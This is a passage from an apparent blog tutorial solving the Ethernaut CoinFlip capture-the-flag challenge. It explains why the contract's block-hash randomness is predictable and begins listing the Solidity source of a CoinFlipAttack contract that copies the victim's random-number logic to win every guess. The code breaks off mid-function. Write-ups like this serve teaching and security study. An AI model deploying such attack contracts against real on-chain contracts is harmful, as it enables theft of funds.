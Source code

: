 From there, it follows that executing several transactions in the same block so they all share the block number and hash will sadly not help us solve the challenge. However, I previously said that all transactions are triggered by an EOA. Which means, contract's cannot trigger transactions - contracts only pass messages to each other, those messages being included **within the same transaction**. So what if we had something like a 'proxy' contract ? Couldn't we deploy a malicious contract that executes the attack for us? Stay with me here, we're almost there.

Imagine for a second that we deployed a new contract `CoinFlipAttack`. It its code, we could call `block.blockhash` and `block.number` just like `CoinFlip` contract does. In fact, we could mimic the whole PRNG implemented in `CoinFlip`, something like taking the coin from CoinFlip and flip it ourselves. Once we do that, we could predict the side of coin, and call the `CoinFlip` contract with our 'guess'. Since the call from `CoinFlipAttack` to `CoinFlip` is within the same transaction (originated in our first call to `CoinFlipAttack`), the block.blockhash and block.number values will be exactly the same as in the flip we did in `CoinFlipAttack`, thus our 'guess' will match the outcome in the `CoinFlip` contract. Do that 10 times in a row, and *voila'*, challenge solved.

### The exploit
Let's translate that last paragraph to Javascript and Solidity code. First, we need to create the `CoinFlipAttack` and deploy it to the network. I'm assuming that you already deployed the `CoinFlip` contract to your local blockchain (we covered the steps on how to do that in our first article).

In the contracts folder of the project, create a new file `CoinFlipAttack.sol`. Its code goes like this. Read the inline comments to fully get what I'm doing.
[The code of `CoinFlipAttack.sol` is also hosted in my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"}

~~~solidity
pragma solidity ^0.4.18;

/*
Import the vulnerable contract so we can later
instantiate it and call its functions
*/
import "./CoinFlip.sol";

contract CoinFlipAttack {
    CoinFlip public victimContract;
    
    // Same number as in CoinFlip contract
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    bool public side;
    
    /*
    Public function to set the victim contract. We will call this first in our exploit.
    It could have also been done in a constructor.
    */
    function setVictim(address _addr) public {
        /* 
        Note that here we are not calling CoinFlip constructor with an address,
        but just instantiating it and setting its address. All functions calls will be sent to that address.
        This is Solidity a quirk, get used to it :)
        */
        victimContract = CoinFlip(_addr);
    }

    /*
    Public function which mimics the PRNG in CoinFlip and then calls CoinFlip with the correct guess.
    */
    function flip() public returns (bool) {
        // Same PRNG as in victim contract
        // The "random" numbers will be exactly the same in both contracts
        uint256 blockValue = uint256(block.blockhash(block.number-1));
~~~